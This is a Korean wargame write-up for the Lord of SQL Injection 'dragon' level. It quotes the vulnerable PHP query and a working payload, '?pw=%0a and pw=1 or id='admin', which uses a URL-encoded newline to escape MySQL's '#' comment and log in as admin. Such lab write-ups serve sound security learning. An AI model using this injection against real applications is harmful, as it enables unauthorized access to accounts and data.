 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `dragon`이다.  

메인 이미지가 `용이 산다` 웹툰의 `마리`다.  

대존귀탱 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=''
-------------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 쿼리문 중간에 `#`이 들어가 있다.  

`#`은 `MySQL`에서 주석을 의미한다.  

처음에는 이 주석을 어떻게 우회할 수 있지 않을까 생각했다.  

그래서 이것저것 찾다가 `executabl comments`를 찾게 되었다.  

`MySQL` 에서 주석이 여러개가 있는데, 그 중에 `/* */`이 있다.  

이 때, `/*! QUERY */` 이런식으로 안에 느낌표를 넣어주면, 해당 쿼리를 실행할 수 있다고 한다.  

쨌든 이건 문제 풀이와는 상관 없다.  

주석을 우회할 수 없을까 계속 고민하다가 서버에서 `MySQL`을 실행시키고 쿼리를 여러개 테스트 해 보았다.  

```
mysql> select idx from board where idx=50# or idx=/*!####51*/;
    -> ;

mysql> select 1 from board where idx=50# or #idx=51;
    -> ;
```

이런 형태로 테스트를 해 보았는데, 한가지 특징이 나타났다.  

잘 보면, `#` 이후는 다 주석처리가 됬다는 사실을 알 수 있다.  

때문에 쿼리가 완성이 되지 않았기 때문에 다음 줄을 입력하라고 떴고, 거기에 `;`을 입력 해 쿼리를 완성시켜주었더니 정상적으로 쿼리가 실행되었다.  

즉, `#`은 `한 줄짜리 주석`이며, `MySQL`은 `여러 줄에 걸쳐` 쿼리를 작성할 수 있다.  

이번에는 이 점을 이용해서 문제를 풀었다.  

현재 쿼리는 다음과 같다.  

```
select id from prob_dragon where id='guest'# and pw=''
```

그런데 만약 여기서 `pw`에 `%0a`를 입력 해 개행한다면 다음과 같이 구성 될 것이다.  

```
select id from prob_dragon where id='guest'# and pw='
'
```

이 때, 다음 줄은 주석이 아니므로 정상적으로 쿼리를 이어서 실행시킬 수 있게 된다.  

```
select id from prob_dragon where id='guest'# and pw='
and pw=1 or id='admin'
```

따라서 위와 같이 쿼리를 구성한다면 다음 줄의 쿼리를 실행시킬 수 있다.  

이를 위해 `URL`에 아래와 같이 입력 해 문제를 풀 수 있었다.  

```
?pw=%0a and pw=1 or id='admin
```

```php
--------------------------------------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=' and pw=1 or id='admin'
--------------------------------------------------------------------------------------------------------------------

Hello admin
DRAGON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

`DRAGON Clear!!`
